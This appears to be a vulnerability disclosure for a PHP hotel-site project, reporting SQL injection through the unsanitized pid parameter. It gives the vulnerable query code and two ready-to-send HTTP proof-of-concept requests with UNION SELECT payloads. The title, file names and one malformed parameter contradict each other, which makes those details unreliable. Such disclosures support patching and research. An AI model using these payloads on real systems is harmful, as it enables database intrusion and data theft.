 # Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/responsive-hotel-site-using-php-source-code/



## Vulnerability file



/admin/print.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
	ob_start();	
	include ('db.php');

	$pid = $_GET['pid'];
	
	
	
	$sql ="select * from payment where id = '$pid' ";
	$re = mysqli_query($con,$sql);
```

###### The key parameter has moved from '$pid' to '$sql'`

## POC1

```
GET /admin/print.php?pid=2'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+fMnC HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5226nusitfi5p0qsg8q74pe0si
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

![image-20250104153049848](https://github.com/Huandtx/cve/raw/main/cve/Responsive%20Hotel%20Site/image-20250104153049848.png))

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

![image-20250104153228228](https://github.com/Huandtx/cve/raw/main/cve/Responsive%20Hotel%20Site/image-20250104153228228.png)

![image-20250104153334813](https://github.com/Huandtx/cve/raw/main/cve/Responsive%20Hotel%20Site/image-20250104153334813.png))
